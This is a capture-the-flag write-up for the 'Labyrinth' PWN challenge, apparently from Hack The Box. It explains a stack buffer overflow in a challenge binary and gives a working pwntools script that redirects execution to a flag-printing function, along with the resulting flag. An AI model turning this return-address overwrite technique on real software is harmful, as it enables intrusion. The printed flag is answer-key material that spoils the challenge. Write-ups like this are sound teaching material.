 # Challenge: Labyrinth (PWN)

## Challenge Overview

**Name:** Labyrinth  
**Category:** PWN  
**Difficulty:** Easy

### Description:

You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

---

# Challenge Progress: Labyrinth (PWN)

## Exploit Steps

### Step 1: Analyze the Binary with `checksec`
Check the security features of the binary using the `checksec` command:
```bash
checksec --fortify-file=full --pie --relro --nx
````

This reveals the following:

* **Full RELRO**: The GOT (Global Offset Table) is read-only.
* **No Canary**: No stack protection is enabled.
* **NX (Non-eXecutable)**: Prevents execution of shellcode in certain areas.
* **No PIE (Position Independent Executable)**: The binary's memory address is static, meaning it's predictable and exploitable.

### Step 2: Load the Binary into Ghidra

Using **Ghidra**, a powerful reverse engineering tool, the binary is disassembled and analyzed. The main function in the program is examined to understand the flow. Specifically, the program asks the user to select a door, and if the input is `"69"` or `"069"`, it proceeds to another step where the input is stored in a buffer of size 16 bytes.

### Step 3: Identify the Buffer Overflow Vulnerability

In the `main()` function, after receiving the door input (`fgets`), the program proceeds to accept additional input (up to 68 bytes). This results in a **stack-based buffer overflow**, allowing an attacker to overwrite the return address and redirect the program flow.

### Step 4: Locate the `escape_plan()` Function

In the **escape\_plan()** function, the flag is printed by reading the contents of `flag.txt`. The address of this function is located using `objdump -d ./labyrinth | grep escape`.

### Step 5: Craft the Exploit Payload

The exploit payload is written using **Pwntools**, a library for binary exploitation in Python. The payload is designed to:

* Fill the buffer with `0x30` bytes of `'A'` to overflow the stack.
* Append the address of the `.bss` section, adjusted to point to where the flag is located.
* Append the address of the `escape_plan()` function to redirect execution.

### Step 6: Prepare the Python Exploit Script

Here is the Python script used to exploit the vulnerability:

```python
from pwn import *

exe = ELF("/home/kali/Downloads/labyrinth/labyrinth")
libc = ELF("/home/kali/Downloads/labyrinth/libc.so.6")
ld = ELF("/home/kali/Downloads/labyrinth/ld-linux-x86-64.so.2")

context.binary = exe

host = '94.237.52.170'
port = 56514
r = remote(host, port)
r.sendline(b'69')
addr = 0x0000000000401256  # Memory address of escape_plan function
payload = b'a' * 0x30 + p64(exe.bss() + 0x200) + p64(addr)  # Overflow and redirect

r.sendline(payload)
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```

### Step 7: Run the Exploit

Execute the script with:

```bash
python3 exploit.py
```

### Expected Output

If successful, the script will display the flag:

```
[+] Opening connection to 94.237.52.170 on port 56514: Done
[+] Flag --> HTB{3sc4p3_fr0m_4b0v3}
```

May god with us~